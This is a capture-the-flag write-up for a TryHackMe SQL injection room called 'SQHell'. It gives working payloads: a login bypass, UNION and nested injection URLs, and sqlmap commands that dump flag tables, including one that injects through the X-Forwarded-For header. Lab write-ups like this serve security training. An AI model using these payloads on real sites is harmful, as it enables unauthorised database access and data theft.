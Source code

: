 # SQHell

Link to the room: https://tryhackme.com/room/sqhell

## Let's go!

Setting IP variable

```
export IP=10.10.68.254
```

## Enumeration

### Nmap scan 

```
Port 22 is open
Port 80 is open
```

Nothing out of the ordinary; let's dig deeper.

```
nmap -p22,80 -sV -sC -Pn -T4 -oA 10.10.68.254 10.10.68.254
```

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The ssh isn't helpful without the credentials, so let's focus on the webserver for now. We'll run a gobuster scan while we visit the page.

### Gobuster 

```
/login                (Status: 200) [Size: 1763]
/post                 (Status: 200) [Size: 21]  
/register             (Status: 200) [Size: 2593]
/user                 (Status: 200) [Size: 21]  
```

## Visiting the webserver

![website](webserver_landing_page.PNG)

### Login page

![login page](login_page.PNG)

I tried the default credentials but to no avail. As the room revolves around SQL injection, let's fire up burp suite and send the request to the repeater to try some SQL injection for authorization bypass manually.

```
POST /login HTTP/1.1
Host: 10.10.68.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://10.10.68.254
Connection: close
Referer: http://10.10.68.254/login
Upgrade-Insecure-Requests: 1

username=admin'+or+'1'%3d'1&password=password
```

On the third try, we can bypass the login and get the flag (you'll see it in the response). Don't forget to URL encode the request!
You can find the list of the different commands here: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/.

### Posts page

Visiting /post, we're greeted with `Missing parameter: id`. This shows that the page requires an id parameter. Playing around with it we can see that we're able to mess around with the page and it is indeed vulnerable to sql injection!

```
http://10.10.68.254/post?id=-1%20union%20select%201,2,user(),4
```

![post](post_id_user.PNG)

Let's fire up sqlmap and beat it up. A good practice is to intercept the request using burp suite and then saving it. I saved the request as sqhell_post.request.

**Sqlmap for /post**

After several tries dumping the database and then tables, the final command is:

```
sqlmap -r sqhell_post.request --dbms mysql -D sqhell_5 -T flag --dump 
```

### Register page

This one is tricky; first, it won't let you register a new user. However, the fact that it takes in data leaves gives us some room to work in. Good thing our burp suite was running in the background, and we were able to identify the user-check parameter. 

```
http://10.10.68.254/register/user-check?username=a
```

Let's save the request as sqhell_register.request and can try sqlmap on this.

**Sqlmap for /register**

```
sqlmap -r sqhell_register.request --dbms mysql -D sqhell_3 -T flag --dump
```

### Terms and conditions page

Before moving on to the users, let's take a look at the terms and conditions page, there we'll find a massive hint which states:

```
iii: We log your IP address for analytics purposes
```

This means that the site identifies the IP address of the user connecting to their web server through an HTTP header. X-Forwarded-For is an HTTP header field that is considered as a de facto standard for this purpose. For this, our sqlmap command will differ slightly as we'll be using the URL and header switch for this task.

**Sqlmap for /terms-and-conditions**

```
sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://10.10.68.254/ -D sqhell_1 -T flag --dump
```

### User login

This one, by far, was the most difficult one to came across. At first sight, it seems like any other SQL injection inside the `user?id=` parameter; however, after beating it up several times with sqlmap, I couldn't retrieve the flag. Good thing the ever so generous Mr Adam gave us a following hint: *Well, dreams, they feel real while we're in them right?* 

Now, this is a quote from the movie inception. As any normal (arguable, but okay) pentester would do, we can google the term sql injection inception! This brings us to an article that refers to this notion of "inception" injection simply as Nested SQL injection. This gives us an idea of what to do next. Let's fire up burp and try Nested attack on the webserver.

Trying the following commands gives us an idea of where to start.

```
http://10.10.68.254/user?id=2 union all select 1,2,3 from users#
```

![user sql injection](sqhell_user_injection.PNG)

This shows that we were successfully able to overwrite the database. Let's nest another SQL injection inside it and try to retrieve the flag.

```
http://10.10.68.254/user?id=2 union all select "1 union select 1,flag,3,4 from flag-- -",1,2 from users#
```

![sql user flag](sql_user_flag_redacted.png)

Success, we were finally able to retrieve the flag!
